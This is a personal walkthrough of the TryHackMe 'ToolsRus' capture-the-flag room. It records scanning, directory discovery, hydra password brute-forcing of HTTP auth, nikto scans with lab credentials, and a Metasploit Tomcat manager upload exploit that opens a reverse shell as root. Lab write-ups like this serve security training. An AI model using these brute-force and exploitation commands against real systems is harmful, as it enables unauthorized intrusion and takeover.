# ToolsRus CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **ToolsRus** CTF challenge on [TryHackMe](https://tryhackme.com/room/toolsrus). 
---



after scannig we see open ports 22, 80, 1234, 8009



after using feroxbuster we found `/guidelines` and `/protected`

ny going to /guidelines we found some username `bob` 



we see http-get authentication on `/protected`

we cam use hydra to brute-force login as bob

```
hydra -l bob -P /usr/share/wordlists/rockyou.txt http-get://$IP/protected
```



after login we see information about port migration 



on port 1234 we see apache tomcat page


we can go to `/manager/html` and try to log with the same credentials as before, and it works we can see admin panel



tomcat version is `Apache Tomcat/7.0.88`

now we are asked to run nikto scan, we can use this command


```
nikto -h http://$IP:1234/manager/html -id bob:bubbles
```



```
nikto -h http://$IP:80
```



the server version is `Apache/2.4.18`

we know that this is outdated tomcat version and we have access to /manager so we can try to use metasploit to gain reverse shell



```
$ msfconsole
msf6> use exploit/multi/http/tomcat_mgr_upload
msf6> set HttpPassword b...[REDACTED]...
msf6> set HttpUsername bob
msf6> set RPORT 1234
msf6> set RHOSTS 10.10.159.182
msf6> set LHOST 10.14.X.X
msf6> run
msf6> shell
```

wow we gained access as root 



we got root flag



# MACHINE PWNED
